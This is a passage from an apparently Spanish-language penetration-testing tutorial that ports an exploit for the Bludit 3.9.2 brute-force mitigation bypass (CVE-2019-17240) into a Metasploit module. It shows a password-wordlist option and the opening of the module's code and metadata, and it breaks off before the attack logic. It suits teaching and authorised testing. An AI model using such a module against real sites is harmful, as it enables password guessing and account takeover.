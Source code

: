 Mirando hacia atrás en nuestro exploit, vemos que se requerirá una lista de palabras en lugar de la `BLUDITPASS`variable para que el módulo aplique fuerza bruta a las contraseñas para el mismo nombre de usuario. Sería algo parecido al siguiente fragmento:
```ruby
OptPath.new('PASSWORDS', [ true, 'The list of passwords',
          File.join(Msf::Config.data_directory, "wordlists", "passwords.txt") ])
```

El resto del código de explotación debe ajustarse de acuerdo con las clases, métodos y variables utilizadas en la migración al Marco Metasploit para que el módulo funcione al final. La versión final del módulo quedaría así:

#### Prueba de concepto
```ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking

  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::PhpEXE
  include Msf::Auxiliary::Report
  
  def initialize(info={})
    super(update_info(info,
      'Name'           => "Bludit 3.9.2 - Authentication Bruteforce Mitigation Bypass",
      'Description'    => %q{
        Versions prior to and including 3.9.2 of the Bludit CMS are vulnerable to a bypass of the anti-brute force mechanism that is in place to block users that have attempted to login incorrectly ten times or more. Within the bl-kernel/security.class.php file, a function named getUserIp attempts to determine the valid IP address of the end-user by trusting the X-Forwarded-For and Client-IP HTTP headers.
      },
      'License'        => MSF_LICENSE,
      'Author'         =>
        [
          'rastating', # Original discovery
          '0ne-nine9'  # Metasploit module
        ],
      'References'     =>
        [
          ['CVE', '2019-17240'],
          ['URL', 'https://rastating.github.io/bludit-brute-force-mitigation-bypass/'],
          ['PATCH', 'https://github.com/bludit/bludit/pull/1090' ]
        ],
      'Platform'       => 'php',
      'Arch'           => ARCH_PHP,
      'Notes'          =>
        {
          'SideEffects' => [ IOC_IN_LOGS ],
          'Reliability' => [ REPEATABLE_SESSION ],
          'Stability'   => [ CRASH_SAFE ]
        },
      'Targets'        =>
        [
          [ 'Bludit v3.9.2', {} ]
        ],
      'Privileged'     => false,
      'DisclosureDate' => "2019-10-05",
      'DefaultTarget'  => 0))
      
     register_options(
```